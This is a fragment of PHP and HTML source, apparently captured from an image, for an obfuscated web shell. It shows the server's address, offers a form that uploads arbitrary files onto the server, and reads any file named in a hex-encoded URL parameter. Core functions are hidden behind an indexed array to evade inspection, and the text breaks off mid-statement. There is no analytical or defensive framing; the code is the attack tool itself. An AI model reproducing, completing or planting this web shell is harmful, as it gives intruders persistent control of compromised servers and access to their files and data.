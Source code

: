 					<br />

				</div>

				<div class="u">
					<?php echo $_SERVER['SERVER_ADDR'];?> <i class="fas fa-link"></i>
					<br />

					<br />

					<form method="post" enctype="multipart/form-data">
						<label class="l w">
							<input type="file" name="n[]" onchange="this.form.submit()" multiple> &nbsp;UPLOAD
						</label>&nbsp;
					</form>

					<?php
					$o_ = [ 
							'<script>$.notify("',
							'", { className:"1",autoHideDelay: 2000,position:"left bottom" });</script>'
						];
					$f = $o_[0].'OK!'.$o_[1];
					$g = $o_[0].'ER!'.$o_[1];
					if(isset($_FILES["n"])) {
						$z = $_FILES["n"]["name"];
						$r = count($z);
						for( $i=0 ; $i < $r ; $i++ ) {
							if($GNJ[5]($_FILES["n"]["tmp_name"][$i], $z[$i])) {
								echo $f;
							}
							else {
								echo $g;
							}
						}
					}
					?>

				</div>
					<?php
					$a_ = '<table cellspacing="0" cellpadding="7" width="100%">
						<thead>
							<tr>
								<th>';
					$b_ = '</th>
							</tr>
						</thead>
						<tbody>
							<tr>
								<td></td>
							</tr>
							<tr>
								<td class="x">';
					$c_ = '</td>
							</tr>
						</tbody>
					</table>';
					$d_ = '<br />
										<br />
										<input type="submit" class="w" value="&nbsp;OK&nbsp;" />
									</form>';
					if(isset($_GET["s"])) {
						echo $a_.uhex($_GET["s"]).$b_.'
									<textarea readonly="yes">'.$GNJ[15]($GNJ[6](uhex($_GET["s"]))).'</textarea>
									<br />
									<br />